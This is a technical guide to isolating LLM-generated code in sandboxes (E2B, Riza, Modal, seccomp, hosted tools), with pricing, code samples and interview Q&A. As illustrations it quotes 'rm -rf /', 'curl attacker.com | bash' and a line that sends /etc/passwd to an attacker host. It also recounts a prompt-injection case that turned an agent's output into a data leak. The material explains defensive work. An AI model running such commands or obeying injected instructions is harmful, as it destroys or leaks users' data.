


# Sandboxed Code Execution — Deep Dive
---

## 1. Concept Overview

Sandboxed code execution is the practice of running LLM-generated code inside an isolated environment that limits what the code can access, modify, or communicate with. Without sandboxing, an agent that generates and executes code is a privileged shell with LLM-chosen commands — it can delete files, exfiltrate credentials, install malware, or run infinite loops that consume all CPU.

The core tension: LLM agents need to run code to be useful (data analysis, test execution, debugging, build pipelines), but LLM-generated code is untrusted input. Sandboxing resolves this by providing a controlled execution environment where code can run freely within defined resource and network boundaries.

Modern sandbox providers offer cloud-hosted microVMs or WebAssembly runtimes that spin up in tens to a couple of hundred milliseconds, run the code, return output, and disappear — giving agents the power of code execution without the risk of arbitrary host access.

---

## 2. Intuition

> **One-line analogy**: A sandbox is like a hospital glovebox — you can work with dangerous materials through it, but nothing gets in or out that you didn't explicitly allow.

**Mental model**: Imagine giving a contractor the key to your house vs giving them access to a specific locked room with only the tools they need. An unsandboxed `subprocess.run()` gives the LLM your house key. A sandbox gives it access to a purpose-built room with no exit.

**Why it matters**: Code execution is the highest-capability tool an agent can have — and therefore the highest risk. A single compromised [prompt injection](../llm_security/llm_security.md) that triggers `rm -rf /` or `curl attacker.com | bash` can cause irreversible damage. Sandboxing makes code execution safe enough to enable in production.

**Key insight**: The security boundary is not about preventing bad code — LLMs write bad code frequently. It is about ensuring that bad code cannot escape its container and affect the host, the network, or other systems.

---

## 3. Core Principles

- **Isolation**: The sandbox process cannot access the host filesystem, network, or other processes beyond what is explicitly allowed.
- **Resource limits**: CPU, memory, disk, and execution time are bounded to prevent denial-of-service by runaway code.
- **Minimal permissions**: Grant only the capabilities needed for the task. A data analysis sandbox needs no network. A web scraper needs no filesystem write.
- **Ephemerality**: Sandboxes are created fresh per task and destroyed after. No state leaks between runs.
- **Output capture**: All stdout, stderr, and return values are captured and returned to the agent. Error messages are valuable for the agent's self-correction loop.
- **Auditability**: Every sandbox invocation is logged with the code executed, resource usage, and output — essential for debugging and security audits.

---

## 4. Types / Architectures / Strategies

### 4.1 MicroVM Sandboxes (E2B, Daytona)

Full Linux virtual machines started from snapshots in well under a second. Each sandbox is a real Firecracker microVM with a full OS, filesystem, and network stack. Provides the most compatibility (any Linux binary works) at the cost of higher startup latency and memory overhead than a Wasm runtime.

**E2B** — a leading cloud microVM provider for AI agents:
- Sandbox start under 200ms in-region (80ms for its quick-start variant), on Firecracker
- Anything that runs on a Linux box: Python, JavaScript, Bash, and more
- Persistent filesystem within a session (files survive across code calls)
- Network enabled by default (can restrict with allowlists)
- Billed per second by resource: $0.000028/s for the default 2 vCPU (≈$0.10/hour of compute) plus $0.0000045/GiB/s of RAM
- Session length capped at 1 hour on Hobby, 24 hours on Pro
- Python SDK: `pip install e2b-code-interpreter`

**Daytona** — agent sandbox runtime:
- Advertises sub-90ms sandbox creation
- Git clone + install deps + run in a reproducible environment
- Designed for longer-lived coding tasks (minutes to hours)
- Pay-as-you-go per vCPU-hour plus storage; sandboxes can run in your own cloud
- Good for agents that need to clone a repo, run tests, and iterate

### 4.2 WebAssembly Sandboxes (Riza)

Code runs inside a WebAssembly sandbox — no real OS, no real filesystem, no real network. There is no VM to boot, so execution starts almost immediately. More restrictive than microVMs but faster and cheaper.

**Riza** — Wasm-based code execution:
- Code starts executing under 10ms after Riza receives it; there is no sandbox boot step
- Python, JavaScript, Ruby, PHP
- No network by default (must explicitly add HTTP allow rules)
- No filesystem access by default
- Wasm modules are not reused across executions, so nothing leaks between runs
- Good for data processing, format conversion, computation

### 4.3 Serverless Container Sandboxes (Modal)

Serverless functions in containers with GPU support. Not microVMs — Modal containerizes and virtualizes compute jobs with **gVisor**, Google's user-space kernel, which intercepts guest syscalls in a sandboxed process rather than passing them to the host kernel. Stronger than plain namespaces-and-cgroups, weaker than a hardware-virtualized guest kernel.

**Modal** — serverless GPU containers:
- 100-300ms cold start
- GPU access (A10, L4, A100, H100, B200) for ML workloads
- Persistent volumes for data between runs
- `@app.function()` decorator turns any Python function into a sandboxed serverless call
- Good for agents that need GPU compute (image generation, model inference)

### 4.4 Local Process Sandboxes (subprocess + seccomp)

For self-hosted deployments, run code in a subprocess with Linux seccomp profiles, namespaces, and cgroups. Higher operational overhead but no external dependency.

```
seccomp filter → block dangerous syscalls (execve, socket, openat outside /tmp)
namespaces     → separate PID, mount, network, user namespaces
cgroups        → CPU 1 core, memory 512MB, no network interface
```

### 4.5 Provider-Hosted Sandboxes (no sandbox to provision)

The four strategies above all assume you own the execution environment. The model
providers now run one for you as a server-side tool, and for a large class of agents that
removes the sandbox from your architecture entirely. Anthropic's **code execution tool**
takes a tool type rather than an SDK: `code_execution_20250825` gives Claude Bash commands
plus file operations and works on every current model; `code_execution_20260120` adds REPL
state persistence and programmatic tool calling; `code_execution_20260521` is the same
runtime with a tool description that warns Claude about the 90-second wall-clock limit on
each Python cell. All three are generally available and need no beta header.

```python
resp = client.messages.create(
    model="claude-sonnet-5",
    max_tokens=4096,
    tools=[{"type": "code_execution_20250825", "name": "code_execution"}],
    messages=[{"role": "user", "content": "Chart the revenue trend in this CSV."}],
    # container="container_abc123",   # reuse a previous response's container
)
```

The container is deliberately narrow: Python 3.11 on Linux x86_64, **1 CPU, 5 GiB RAM,
5 GiB workspace**, and — the design decision that matters most — **internet access
completely disabled, with no outbound requests permitted**. Claude therefore cannot
`pip install` at runtime; only the pre-installed libraries exist (pandas, numpy, scipy,
scikit-learn, statsmodels, matplotlib, seaborn, pyarrow, openpyxl, pillow, pypdf, sympy)
alongside CLI tools such as ripgrep, fd, sqlite and 7zip. Data enters through the Files
API (`anthropic-beta: files-api-2025-04-14`) as a `container_upload` content block, not
over the network. Containers are scoped to the API key's workspace, are checkpointed after
roughly five minutes of inactivity, and expire 30 days after creation; passing an earlier
response's `container.id` back restores the same filesystem.

Billing is by execution time, not tokens: a 5-minute minimum per invocation, **1,550 free
hours per organization per month**, then **$0.05 per hour per container**. Attaching files
bills execution time even if Claude never calls the tool, because the files are preloaded
onto the container. Code execution is free when the request also includes the current web
search or web fetch tool. Compare that to the E2B and Modal per-second pricing in 4.1-4.3:
for bursty analysis workloads the free tier usually wins outright; for anything needing
network access, GPUs, arbitrary `apt`/`pip` installs, or a session longer than a single
task, you are back to a sandbox you provision.

One integration trap. If you offer the hosted tool *and* your own Bash tool in the same
request, Claude is in a multicomputer environment — two filesystems, no shared state — and
will sometimes write a file in one and try to read it from the other. Anthropic's guidance
is to say so explicitly in the system prompt: state that variables and files do not persist
across execution environments, and that results must be passed between them in the tool
calls themselves. This bites silently when you add web search, which enables code execution
automatically alongside your existing shell tool.

---

## 5. Architecture Diagrams



Resource limits applied to every sandbox tier:

| Layer | Limit |
|-------|-------|
| Timeout cap | 15–300s (hard kill on exceed) |
| Output limit | 50KB stdout (prevent token flooding) |
| Memory limit | 512MB–8GB RAM (OOM kill) |
| CPU limit | 1–4 vCPU (no CPU starvation) |
| Disk quota | 1–10GB (no disk exhaustion) |
| Network ACL | allowlist-only or blocked |

**Read it like this.** "These six rows are one statement: whatever the generated code turns out to be, here is the largest amount of damage it is arithmetically capable of doing before something kills it."

A sandbox is not a prediction that code will behave. It is a *bound* on misbehaviour, and every row is a different unit that bound is denominated in — seconds, bytes, RAM, cores, disk, hosts. Anything not on this list is unbounded, which is why the missing sixth row on a home-grown sandbox is always the one that pages you.

| Symbol | What it is |
|--------|------------|
| Timeout cap | Wall-clock ceiling, `15-300s`. Bounds infinite loops and the bill |
| Output limit | `50KB` of stdout. Bounds how many tokens the result can inject downstream |
| Memory limit | `512MB-8GB`. Bounds allocation bombs; the kernel OOM-kills past it |
| CPU limit | `1-4 vCPU`. Bounds how much of a shared host one tenant can seize |
| Disk quota | `1-10GB`. Bounds fork-and-write exhaustion of the node |
| Network ACL | The only row that bounds *exfiltration* rather than *consumption* |

**Walk one example.** Take the timeout row and price it at E2B's published rates for a default 2 vCPU sandbox with 1 GiB of RAM — `$0.000028/s` of compute plus `$0.0000045/s` of RAM, so `$0.0000325` per second:

```
  timeout   worst-case cost   cost across 1M hung runs
    15s        $0.000488            $   488
    30s        $0.000975            $   975
    60s        $0.001950            $ 1,950
   300s        $0.009750            $ 9,750
```

Choosing `300s` over `15s` because "some analyses are slow" is a 20× multiplier on your worst case — `$9,750` versus `$488` at a million hung runs. The right move is not one global timeout but a per-task-class one, because the ceiling is paid by every runaway regardless of how rare the slow legitimate task is. Note also that the first five rows only bound *resource* damage; a sandbox with perfect limits on all five and an open Network ACL still leaks every secret it can see, which is exactly the failure in the war story in Section 10.

---

## 6. How It Works — Detailed Mechanics

### E2B: Cloud MicroVM Execution

```python
import asyncio
from e2b_code_interpreter import AsyncSandbox
import anthropic

client = anthropic.Anthropic()

async def execute_agent_code(user_request: str) -> str:
    """Agent that generates and safely executes Python code."""
    
    # Step 1: Generate code with Claude
    response = client.messages.create(
        model="claude-sonnet-5",
        max_tokens=2048,
        system=(
            "You are a data analysis agent. When given a task, write Python code "
            "to solve it. Return ONLY the Python code, no explanation."
        ),
        messages=[{"role": "user", "content": user_request}]
    )
    generated_code = response.content[0].text
    
    # Step 2: Execute in E2B sandbox with timeout
    async with AsyncSandbox(timeout=60) as sandbox:  # auto-destroyed on exit
        execution = await sandbox.run_code(
            generated_code,
            timeout=30,  # per-execution timeout (separate from sandbox lifetime)
        )
        
        if execution.error:
            # Return stderr to agent for self-correction
            return f"Execution error:\n{execution.error}\n\nStdout so far:\n{execution.text}"
        
        # Truncate output to prevent token flooding (50KB limit)
        output = execution.text[:50_000]
        if len(execution.text) > 50_000:
            output += "\n[Output truncated at 50KB]"
        
        return output


async def main() -> None:
    result = await execute_agent_code(
        "Load the CSV at /data/sales.csv and compute monthly totals by region"
    )
    print(result)

asyncio.run(main())
```

**What this actually says.** The two timeouts in that snippet — `AsyncSandbox(timeout=60)` and `run_code(timeout=30)` — are not a duplicate. Together they say: "any one piece of code gets 30 seconds, and the box it runs in stops existing after 60 seconds no matter how many pieces you feed it."

| Symbol | What it is |
|--------|------------|
| `AsyncSandbox(timeout=60)` | Lifetime of the VM itself. Billing clock and hard destroy |
| `run_code(timeout=30)` | Per-execution ceiling. Kills one call, leaves the sandbox alive |
| `async with` | The destroy guarantee — the VM dies on exit even if the body raises |
| `execution.error` | Stderr handed back to the agent so it can self-correct and retry |
| `[:50_000]` | The output cap from the table above, enforced at the call site |
| `k` | How many `run_code` calls fit inside one sandbox lifetime |

**Walk one example.** Bound the worst case for one `execute_agent_code` call at E2B's `$0.0000325` per second (2 vCPU + 1 GiB):

```
  k = floor(60 / 30)      =  2 executions max inside one sandbox
  sandbox lifetime cost   =  60s x $3.25e-5  =  $0.001950   (hard ceiling)
  a single 30s execution  =  30s x $3.25e-5  =  $0.000975

  1M agent calls, all hitting the ceiling    =  $1,950
```

The per-execution timeout is what makes the retry loop work: a `30s` kill returns a real error string the agent can reason about, whereas hitting the `60s` sandbox timeout destroys the VM and loses the session filesystem with it. Set them equal and you get only one attempt per sandbox and pay a fresh sub-`200ms` sandbox start for every retry. The `2:1` ratio here buys exactly one retry inside a warm box — a deliberate choice, not a default.

### Riza: WebAssembly Execution (No Network)

```python
import httpx
import json

def execute_riza(code: str, language: str = "python") -> dict:
    """Execute code in Riza's WASM sandbox — no network, deterministic."""
    
    response = httpx.post(
        "https://exec.riza.com/v1/execute",
        headers={
            "Authorization": f"Bearer {RIZA_API_KEY}",
            "Content-Type": "application/json",
        },
        json={
            "language": language,
            "code": code,
            "runtime_revision_id": "latest",
            # No network allow rules = completely isolated
        },
        timeout=30,
    )
    result = response.json()
    
    return {
        "stdout": result.get("stdout", "")[:50_000],
        "stderr": result.get("stderr", ""),
        "exit_code": result.get("exit_code", -1),
    }


# Example: safe data processing
code = """
import json
import statistics

data = [23.5, 18.2, 31.0, 29.8, 15.5, 27.3]
result = {
    "mean": statistics.mean(data),
    "median": statistics.median(data),
    "stdev": round(statistics.stdev(data), 2),
}
print(json.dumps(result))
"""

output = execute_riza(code)
print(output)
# {"mean": 24.216..., "median": 25.65, "stdev": 5.81}
```

### Modal: Serverless Container with GPU

```python
import modal

app = modal.App("agent-sandbox")

@app.function(
    gpu="A10",            # valid values include T4, L4, A10, L40S, A100, H100, B200
    memory=8192,          # 8GB RAM
    timeout=120,          # 2-minute hard limit
    network_file_systems={"/data": modal.NetworkFileSystem.from_name("agent-data")},
)
def run_ml_code(code: str) -> dict:
    """Execute ML code in an isolated GPU container."""
    import subprocess
    import sys
    
    # Write code to temp file
    with open("/tmp/agent_code.py", "w") as f:
        f.write(code)
    
    result = subprocess.run(
        [sys.executable, "/tmp/agent_code.py"],
        capture_output=True,
        text=True,
        timeout=100,
    )
    
    return {
        "stdout": result.stdout[:50_000],
        "stderr": result.stderr[:10_000],
        "returncode": result.returncode,
    }


# Call from agent
with app.run():
    output = run_ml_code.remote(generated_ml_code)
```

---

## 7. Real-World Examples

**Cursor Composer / Claude Code**: Uses sandboxed shell execution for every bash command. Commands run in the project's directory but with the agent's own process — isolated from other sessions.

**Replit Agent**: Spins up a Replit container per project. LLM-generated code runs in that container with internet access (necessary for `pip install`) but isolated from other users' containers.

**OpenAI Code Interpreter**: Runs each session in a managed container. Python execution, file upload/download, memory tiers of 1GB (default), 4GB, 16GB and 64GB. Containers are ephemeral and expire after 20 minutes of inactivity, after which the container is unreachable and its data is discarded — you cannot revive one, only create a new one.

**Devin (Cognition AI)**: Full Ubuntu VM per session. Agent has root access inside VM. VM is isolated from production infrastructure with VPN-based network allowlists.

**Production data pipeline agent**: Analyst agent generates PySpark code, executes in E2B sandbox against sample data (1000 rows), validates output schema, then submits to production Spark cluster only if validation passes. Sandbox prevents bad code from touching production data.

---

## 8. Tradeoffs

| Dimension | subprocess (unsafe) | E2B MicroVM | Riza WASM | Modal Container | Local seccomp |
|---|---|---|---|---|---|
| Startup latency | <1ms | <200ms (80ms quick-start) | <10ms | 100-300ms | <10ms |
| Isolation level | None | High (hardware-virtualized guest kernel) | High (Wasm, no OS syscall surface) | Medium-high (gVisor user-space kernel) | Medium (seccomp) |
| Language support | Any | Any Linux binary | Python/JS/Ruby/PHP | Any | Any |
| Network control | Full host access | Configurable ACL | Blocked by default | Configurable | seccomp filter |
| GPU support | Yes | No | No | Yes | Yes |
| Filesystem persistence | Yes (host!) | Within session | No | Volumes | Configurable |
| Cost | Free (risky) | $0.000028/s (2 vCPU) + $0.0000045/GiB/s | Pay-per-call | $0.0000131/core/s + $0.00000222/GiB/s, +$0.000306-0.001097/s for a GPU | Infrastructure cost |
| Operational overhead | None | None (SaaS) | None (SaaS) | Low | High |
| Self-hostable | Yes | No | No | No | Yes |

**Put simply.** The Cost row is unreadable as printed because every provider quotes a different bundle of resources. Priced at one comparable configuration, the row says: "per second of sandbox uptime, a Modal GPU container is roughly 21× a Modal CPU container, and the resource preset matters more than the vendor."

| Symbol | What it is |
|--------|------------|
| E2B | `$0.000028/s` for 2 vCPU + `$0.0000045/GiB/s`. At 2 vCPU + 1 GiB: `$0.0000325/s` |
| Modal (CPU) | `$0.0000131/core/s` (a core is 2 vCPU) + `$0.00000222/GiB/s`. At 1 core + 1 GiB: `$0.0000153/s` |
| Modal (GPU) | The same CPU line plus the accelerator: `$0.000306/s` for an A10, up to `$0.001097/s` for an H100 |
| Fly.io | `$0.00000078/s` for the smallest `shared-cpu-1x` 256MB preset (≈$2.02/month); larger presets cost proportionally more |
| cold start | Latency you pay per invocation but, for billed-per-second providers, also *bill* for |
| `T` | Total billed seconds: `cold_start + execution_time` |

**Walk one example.** One 30-second execution, adding each provider's own cold start:

```
  provider        T (billed)     $/s          cost per run     per 1M runs
  Fly.io          30.0 + 2.0s    $0.00000078    $0.0000250       $    25
  Modal (CPU)     30.0 + 0.3s    $0.0000153     $0.0004636       $   464
  E2B             30.0 + 0.2s    $0.0000325     $0.0009815       $   982
  Modal (A10)     30.0 + 0.3s    $0.0003213     $0.0097354       $ 9,735

  Modal A10 / Modal CPU  =  21.0x
```

Two things this makes visible that the table hides. First, cold start is a *cost* line, not only a latency line, on per-second billing — Fly.io's `2s` start is 6.3% of its own run's billed time before any code executes, versus 0.7% for E2B's sub-`200ms` start. Second, Modal's price is not a single band to average; the accelerator is a switch, and attaching a GPU when the task is `pandas` work multiplies the bill by 21x for zero benefit. Match the tier to the workload before optimizing anything else in this table — and note that the Fly.io row is cheap because its preset is far smaller, not because its per-resource rate is better.

---

## 9. When to Use / When NOT to Use

**Use sandboxed execution when:**
- Agent generates code from user input or LLM output (any untrusted code)
- Code accesses sensitive data (credentials, PII, financial records)
- Code makes external API calls or reads from network
- Code modifies files (risk of deleting important data)
- Running in a multi-tenant environment (one user's code could affect others)
- Production environment (not a developer's local machine)

**Do not use (or accept the risk) when:**
- Running developer-written scripts in isolated dev environments
- Code is pre-approved and audited (not generated by LLM)
- Latency is critical and even a sub-200ms microVM start is unacceptable (use Riza's Wasm sandbox, which begins executing in under 10ms)
- Air-gapped environment with no external sandbox providers

---

## 10. Common Pitfalls

### Pitfall 1: Direct subprocess execution of LLM code

```python
# BROKEN: Direct subprocess — full host access
import subprocess

def execute_code(code: str) -> str:
    result = subprocess.run(
        ["python", "-c", code],
        capture_output=True, text=True,
        timeout=30
    )
    return result.stdout

# LLM generates: "import os; os.system('curl attacker.com/$(cat /etc/passwd)')"
# This executes on the host — credentials exfiltrated
```

```python
# FIXED: E2B sandbox — isolated VM
from e2b_code_interpreter import Sandbox

def execute_code(code: str) -> str:
    with Sandbox(
        timeout=30,
        # No network needed for data analysis
        metadata={"agent_session": session_id}
    ) as sbx:
        execution = sbx.run_code(code)
        if execution.error:
            return f"Error: {execution.error}"
        return execution.text[:50_000]

# Same malicious code runs in VM — host is protected
# Network call fails (no egress configured)
```

### Pitfall 2: No output size limit

```python
# BROKEN: Unbounded output floods agent context
output = sandbox.run_code("print('x' * 10_000_000)")
# Returns 10MB → consumed as LLM tokens → $5 wasted, context overflowed

# FIXED: Truncate output
output = sandbox.run_code(code)
result = output.text
if len(result) > 50_000:
    result = result[:50_000] + f"\n[Truncated: {len(output.text)} chars total]"
```

**The idea behind it.** The `[:50_000]` slice says: "sandbox output is not text, it is *tokens you will be billed for on every remaining turn* — so cap it at the source, before it ever becomes context."

| Symbol | What it is |
|--------|------------|
| chars | Bytes of stdout the sandbox produced. `10_000_000` in the broken case |
| `chars / 4` | Rough chars-per-token for English and code — the conversion that makes it money |
| `50_000` | The cap, in characters, from the resource-limit table above |
| `$3.00/M` | Claude Sonnet 5 list input price per million tokens |
| 1M | Sonnet 5's context window, for comparison against the token count |
| `[Truncated: N chars total]` | Tells the agent output was cut, so it narrows the query instead of retrying |

**Walk one example.** Price `print('x' * 10_000_000)` against the same run with the cap in place:

```
  uncapped   10,000,000 chars  ->  2,500,000 tok  ->  $7.50 at $3.00/M
  capped         50,000 chars  ->     12,500 tok  ->  $0.0375

  ratio                            200x fewer tokens, 200x cheaper

  2,500,000 tok / 1,000,000 window =   2.5x   -> the call cannot even be made
```

The comment in the broken snippet says `$5 wasted`, which brackets correctly — `$5.00` at a `$2.00/M` input rate, `$7.50` at Sonnet 5's `$3.00/M`. But the money is the smaller problem: at `2.5×` the context window the request fails outright even on a 1M-token model, and on a model with a large enough window it would succeed and then re-send those 2.5M tokens on every subsequent turn of the loop. That is the compounding failure — one unbounded `print` poisons the entire remaining agent run, not just the call that produced it.

### Pitfall 3: Secrets in sandbox environment

```python
# BROKEN: Passing production secrets to sandbox
sandbox = Sandbox(env_vars={"DATABASE_URL": prod_db_url})
# LLM code can read os.environ["DATABASE_URL"] and exfiltrate it

# FIXED: Use read-only sample data, not production connections
sandbox = Sandbox()
sandbox.upload_file(sample_data_bytes, "/data/sample.csv")
# Agent analyzes sample; production query runs separately with audited code
```

**War story**: A financial data agent was given a read-only production database connection inside its sandbox. A prompt injection in a document caused the agent to generate code that read `SELECT * FROM users` and included 50,000 user records in its "analysis summary." The sandbox prevented file writes and outbound network calls, but the agent context itself became the exfiltration channel. Fix: never pass production database connections to sandboxed agents. Use pre-extracted samples.

---

## 11. Technologies & Tools

| Tool | Type | Languages | Cold Start | Network | GPU | Pricing |
|---|---|---|---|---|---|---|
| E2B | Cloud microVM (Firecracker) | Any Linux binary | <200ms (80ms quick-start) | Configurable ACL | No | $0.000028/s (2 vCPU) + $0.0000045/GiB/s |
| Riza | Wasm runtime | Python, JS, Ruby, PHP | <10ms to first instruction | Blocked (default) | No | Pay-per-call |
| Daytona | Agent sandbox runtime | Any (full Linux) | sub-90ms | Configurable | Yes | Per vCPU-hour; self-host or cloud |
| Modal | Serverless container (gVisor) | Any (Docker) | 100-300ms | Configurable | Yes | $0.0000131/core/s + $0.00000222/GiB/s (+GPU) |
| Fly.io Machines | MicroVM | Any | 500-2000ms | Configurable | Yes | From $0.00000078/s (shared-cpu-1x 256MB) |
| RestrictedPython | In-process Python AST | Python only | <1ms | None (in-process) | No | Free |
| seccomp+namespaces | Linux kernel | Any | <10ms | Blocked | Yes | Free (self-host) |

---

## 12. Interview Questions with Answers

**Q: Why is running LLM-generated code with subprocess dangerous even if you trust the LLM?**
**Short:** Even a trusted LLM can be prompt-injected into generating harmful code, so generated code must always run as untrusted.
LLMs are susceptible to prompt injection — malicious content in retrieved documents or tool outputs can cause the model to generate harmful code. Even a well-intentioned LLM can produce code with bugs that cause accidental file deletion or network exposure. Defense-in-depth requires assuming the generated code is untrusted regardless of the LLM's intent.

**Q: What is the difference between E2B and Riza, and when would you choose each?**
**Short:** E2B runs real Firecracker microVMs with a filesystem and network; Riza runs dependency-free WebAssembly with near-zero startup.
E2B uses Linux microVMs (Firecracker) — real OS, persistent filesystem, configurable network, sub-200ms start, billed per second by vCPU and RAM. Riza uses WebAssembly — no OS, no filesystem, no network by default, code begins executing in under 10ms because there is no sandbox to boot, and it is billed per call. Choose E2B when the code needs pip installs, file I/O, or network access. Choose Riza when you need short, dependency-free data processing and the smallest possible attack surface.

**Q: What resource limits should you set on a code execution sandbox?**
**Short:** Set an execution timeout, memory and CPU caps, and an output size limit as the minimum sandbox resource controls.
At minimum: execution timeout (15-60s for most tasks), memory limit (512MB-4GB), CPU limit (1-2 cores), and output size limit (50KB stdout to prevent token flooding). Additionally: disk quota (1-10GB), network egress ACL (allowlist-only or blocked), and a maximum number of concurrent sandboxes per user to prevent cost abuse.

**Q: How do you prevent the sandbox from being used as an exfiltration channel?**
**Short:** Block outbound network at the network layer with an allowlist, since agent response text itself can still leak data.
Block outbound network at the network layer (not just the application layer). Use a dedicated network namespace with no external routes, or an explicit allowlist of permitted domains. Log all network attempts. Additionally, limit the size of output the agent can return — even with no network, an agent can "exfiltrate" data by including it in its response text.

**Q: What is RestrictedPython and when is it appropriate?**
**Short:** RestrictedPython AST-blocks dangerous constructs with near-zero latency but offers weaker isolation than a VM or WASM sandbox.
RestrictedPython is an in-process Python sandbox that compiles code with an AST transformer that blocks dangerous constructs (file access, import restrictions). It has near-zero startup latency but provides weaker isolation than a VM or WASM runtime — a sufficiently clever exploit can escape. Appropriate for trusted-but-untested code (e.g., user-written formulas) in internal tools, but not for fully LLM-generated code in production.

**Q: How should database connections be handled in sandboxed environments?**
**Short:** Never hand a sandbox a live production connection; mount extracted sample data or route through a reviewed, read-only replica.
Never pass production database connections into sandboxes. Instead: (1) pre-extract sample data before the sandbox runs and mount it as a file; (2) if the agent needs to query, have the agent generate SQL that is reviewed (by human or another LLM) before execution against production; (3) use a read-only replica with row-level security to limit blast radius. The sandbox is not a substitute for data access controls.

**Q: What is Firecracker and why do microVM-based sandboxes use it?**
**Short:** Firecracker is AWS's lean VMM specified to boot a guest in under 125ms with just a few megabytes of overhead per VM.
Firecracker is an open-source VMM (Virtual Machine Monitor) developed at AWS to back Lambda and Fargate. Its specification commits to two numbers: no more than 125ms from the `InstanceStart` API call to the guest's `/sbin/init`, and no more than 5 MiB of VMM memory overhead for a 1-vCPU, 128 MiB microVM — far leaner than a general-purpose VMM like QEMU. It provides hardware-level isolation (separate guest kernel, separate memory space), which is why sandbox providers like E2B use it to start many VMs per host economically. Snapshot resume is a separate, faster path than the 125ms cold-boot figure.

**Q: How do you handle the case where LLM-generated code has an infinite loop?**
**Short:** Enforce the timeout at the sandbox provider's VM level, since a Python-level signal handler can be bypassed.
Set a hard execution timeout enforced by the sandbox provider — not a Python signal handler (which can be bypassed). E2B and Modal both enforce timeouts at the VM/container level (SIGKILL). The sandbox returns an error when timeout is exceeded; the agent receives this error and can either retry with fixed code or report failure. Never rely on `sys.setrecursionlimit` or Python-level guards alone.

**Q: What is the cold start problem and how do sandbox providers solve it?**
**Short:** Providers pre-warm Firecracker snapshots or use WASM's boot-free model to cut sandbox cold start to well under a second.
Cold start is the time to provision a fresh execution environment. A general-purpose VM boots in seconds; Firecracker itself specifies at most 125ms from API call to guest init. E2B layers pre-warmed Firecracker snapshots on top of that and advertises in-region sandbox start under 200ms (80ms for its quick-start variant). Riza avoids the problem entirely — there is no sandbox to boot, so code starts executing in under 10ms. Modal solves it by keeping containers warm for frequently used functions.

**Q: How do you test an agent's code execution behavior?**
**Short:** Test malicious inputs, infinite loops, oversized output, and error propagation against the sandbox in integration tests.
(1) Test with malicious inputs (path traversal, network calls, file deletion) and assert that the sandbox blocks them. (2) Test with infinite loops and assert that the timeout fires correctly. (3) Test with large outputs and assert truncation works. (4) Test error propagation — assert that execution errors are returned to the agent correctly so it can self-correct. Use pytest with real sandbox calls in integration tests; mock for unit tests.

**Q: What is the cost model for cloud sandbox providers and how do you control costs?**
**Short:** E2B bills by VM uptime while Riza bills per call, so control cost with short timeouts and immediate sandbox teardown.
E2B charges by sandbox uptime (seconds of VM running, not CPU used). Control costs by: (1) using short timeouts; (2) destroying sandboxes immediately after use (context manager pattern); (3) reusing sandboxes within a session rather than creating new ones per code execution; (4) limiting concurrent sandboxes per user with a semaphore. Riza charges per execution call — cheaper for infrequent use, more expensive at high volume.

**Q: Can a sandbox escape? What are known escape vectors?**
**Short:** MicroVMs resist but aren't immune to escapes, and in-process sandboxes like RestrictedPython have known subclass-based bypasses.
MicroVM sandboxes are resistant to escapes because the guest kernel is fully isolated from the host kernel, but "resistant" is not "immune" — Firecracker has published security advisories, including an arbitrary host file overwrite via symlink in the jailer (January 2026, moderate) and an out-of-bounds write in the virtio-pci transport (April 2026, high). WASM sandboxes have had spec-compliance bugs in runtimes. In-process sandboxes (RestrictedPython) have multiple known bypasses via `__subclasses__`, `ctypes`, or C extension modules. Defense: use microVMs or WASM for LLM-generated code, patch the VMM promptly, and apply defense-in-depth (run the sandbox provider as an unprivileged user, on a network-isolated host).

**Q: How should output from the sandbox be validated before feeding back to the agent?**
**Short:** Truncate sandbox output, sanitize control characters, and validate expected structured formats before returning it to the agent.
(1) Truncate to a maximum length (50KB) to prevent context overflow. (2) Sanitize control characters that could break JSON serialization. (3) If the output is supposed to be structured (JSON, CSV), validate the format before passing to the agent — malformed output causes parsing errors downstream. (4) Flag high-risk patterns in output (base64-encoded strings, URLs, credentials patterns) for logging even if you allow them through.

**Q: What is the difference between sandbox isolation and data access control?**
**Short:** Sandbox isolation stops filesystem and network escape; data access control separately limits what rows the code can query.
Sandbox isolation prevents code from accessing the host filesystem, network, and processes. Data access control (RBAC, row-level security) limits what data the code can query. Both are necessary: sandbox prevents escape, data access control limits what can be queried even within the allowed execution scope. A sandboxed agent with a production DB connection can still query all rows — you need both layers.

**Q: How do you implement a per-user sandbox concurrency limit?**
**Short:** Enforce a per-user semaphore in Redis capping concurrent sandboxes, returning 429 once the limit is exceeded.
Use a semaphore per user (stored in Redis for distributed enforcement): `async with redis_semaphore(user_id, max_concurrent=3): execute_in_sandbox()`. Return HTTP 429 when the limit is exceeded. Set limits based on your cost model — a 2 vCPU / 1 GiB E2B sandbox costs about $0.117/hr, so 3 concurrent sandboxes per user is roughly $0.35/hr. Log semaphore wait time to detect user frustration and tune limits.

**Q: When do you use a provider-hosted code execution tool instead of provisioning your own sandbox?**
**Short:** Anthropic's hosted code execution tool has no network access at all, so provision your own sandbox once you need packages or network.
